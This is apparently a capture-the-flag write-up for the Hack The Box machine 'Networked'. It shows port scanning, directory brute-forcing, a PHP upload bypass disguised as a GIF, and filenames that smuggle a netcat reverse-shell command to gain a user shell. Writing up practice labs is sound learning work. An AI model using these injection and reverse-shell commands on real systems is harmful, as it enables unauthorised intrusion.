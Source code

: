 # [Networked](https://app.hackthebox.com/machines/Networked)

```bash
nmap -p- --min-rate 10000  10.10.10.146
```

![Alt text](img/image.png)


After identifying open ports, we look for them

```bash
nmap -sC -sV -p22,80,443 10.10.10.146 -Pn
```

![Alt text](img/image-1.png)


Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.146/FUZZ
```

Here we find a directory called /backup.

After reading, 'upload.php' file, we understand that, '.gif' format is allowed.

I upload malicious php file into machine by doing below steps.

1. change file extension to .php.gif
2. Add 'GIF89a;' this string at the beginning of the file.

![Alt text](img/image-2.png)


![Alt text](img/image-3.png)

Here's what, we can execute commands.

Let's add reverse shell..

**I TRIED MANY TYPES OF REVERSE SHELL, BUT NONE OF THEM WORKED EVEN I HAVE RCE, I TRIED ANOTHER WAY BY USING TOUCH COMMAND.**

```bash
touch — ‘;nc -c bash 10.10.16.4 1337;.php’
```

![Alt text](img/image-4.png)

![Alt text](img/image-5.png)



To privilege to guly  user.

I go to '/var/www/html/uploads' directory, write below command

```bash
touch '; nc -c bash 10.10.16.4 3333'
```

After 3 minutes, I got shell.

![Alt text](img/image-6.png)


user.txt

![Alt text](img/image-7.png)


After looking at sudo -l , I see changename.sh file, and run with sudo privileges, I enter inputs like this.

Why it is worked, let's look at this [**BUG**](https://bugzilla.redhat.com/show_bug.cgi?id=1697473)


![Alt text](img/image-8.png)



root.txt

![Alt text](img/image-9.png)
